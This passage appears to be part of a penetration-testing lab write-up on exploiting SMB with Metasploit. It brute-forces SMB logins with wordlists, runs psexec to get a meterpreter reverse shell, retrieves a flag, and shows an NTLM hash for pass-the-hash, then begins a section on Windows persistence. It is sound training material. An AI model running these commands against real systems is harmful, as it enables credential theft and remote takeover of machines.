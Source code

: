 ```shell
```

### 8.3. Pass - The - Hash With PsExec (Exploiting SMB With PsExec)

SMB (Server Message Block) is a network file sharing protocol that allows applications and users to read and write to files and request services from server programs in a computer network.

**Objective:** Exploit the SMB service with PsExec and retrieve the flag.

```shell
nmap <target_IP>

# We have discovered that multiple ports are open. The SMB port 445 is also exposed. We will run nmap script to list the supported protocols and dialects of a SMB server.
nmap -p445 --script smb-protocols <target_IP>

# We will run smb_login module to find all the valid users and their passwords.
msfconsole -q
use auxiliary/scanner/smb/smb_login
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set RHOSTS <target_IP>
set VERBOSE false
exploit

# We have found four valid users and their passwords. Running psexec module to gain the meterpreter shell.
use exploit/windows/smb/psexec
show info # read the Descritpion
set RHOSTS <target_IP>
set SMBUser <user>
set SMBPass <password>
set payload windows/x64/meterpreter/reverse_tcp
exploit

# Searching the flag
shell
cd /
dir
type flag.txt

# hash case of use
Administrator:500:aad3b435b51404eeaad3b435b51404ee:0d757ad173d2fc249ce19364fd64c8ec:::
# hash to use 
aad3b435b51404eeaad3b435b51404ee:0d757ad173d2fc249ce19364fd64c8ec
```

### 8.4. Establishing Persistence on Windows

In this section, we’ll explore how to establish persistent access to Windows targets. Once persistence is in place, we can regain access to the system anytime it’s online. To achieve this, we'll use various post-exploitation persistence modules, with a primary focus on one key method.
